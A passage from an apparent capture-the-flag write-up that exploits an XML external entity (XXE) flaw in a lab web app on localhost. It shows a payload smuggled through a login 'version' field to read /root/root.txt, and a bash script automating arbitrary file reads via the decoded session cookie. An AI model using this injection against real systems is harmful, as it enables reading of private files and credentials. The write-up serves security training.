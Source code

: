 XXE is typically good for reading files from the file system. Can I get
`root.txt`? I'll generate a payload like this:



    oxdf@parrot$ bash ./test-cookie.sh '&test;' '1.0.0 -->\n\n<!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- '
    [+] Got cookie: .eJxtkEtPhDAYRf-K6doFIJM4k7iwQnloixT6dWBXUiIMBZuBZF7xv8ti3Lm-9-ac3Bsy59Gg3Q09NGiHRMiIDs9lPqTA5TLB6MpW0ksT170SxC8ji7Vwg3zPKQT8I_fskyIpyQSXfDxzYdhbK5NLVuKUT9QvAGTp1qQhsBdOcpKmy2hootJYoJBGQBhWYJcmZgqirVfGw-a-p9SxXnVgXEueqACn6gCDiFbe6kcjTcX19bjy_Xs_r73tVAiGaxfHYuwG7og1N7h2TJBLneYOmUTYydbYqpighiuZRWQUJbYqD_iznbRXky5rIrYw2fXg_rfXc2u-LnxcevDO7uqDs_C0_mMrOtTHyuhZA54a769PN8o11eqz-j37ZcDe9ZhcRTG_oJ9HZL_7aZnRzvn5BTubgkc.YKLbYw.gx88jbKZCDX4VjKnKGJvoEv5vLg
    <!-- API Version 1.0.0 -->

    <!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- -->
    <root>
        <data>
            <username>&test;</username>
            <is_admin>0</is_admin>
        </data>
    </root>



That is a solid looking XXE payload that tries to read `root.txt`. Now I
need to put this into my browser and visit the page. I suspect the flag
will be in the "Welcome, \[here\]". It worked:

![](/img/image-20210517171106925.png)

#### Script Improvements

I want to automate this a bit more, so I'll add to the script to pull
out the returned XXE value. I'll also adjust the arguments now that I
have the XXE down to just take a filepath:



    #!/bin/bash


    cookie=$(curl -s -v -X POST 'http://127.0.0.1:8888/login' --data-urlencode "username=&test;" --data-urlencode "version=1.0.0 -->
                                                                                       
    <!DOCTYPE root [<!ENTITY test SYSTEM '"$1"'>]><!--" -x http://127.0.0.1:8080 2>&1 |
        grep Set-Cookie | 
        cut -d'=' -f2 |
        cut -d';' -f1)
    >&2 echo "[+] Got cookie: $cookie"
    >&2 flask_session_cookie_manager3.py decode -c $cookie | 
        cut -d"'" -f2 | 
        jq -r '.lxml." b"' | 
        base64 -d | 
        base64 -d

    >&2 echo
    curl -s -x http://127.0.0.1:8080 -b "session=$cookie" http://127.0.0.1:8888/site |
        pup '#welcome text{}' | 
        sed 's/Welcome, //g'
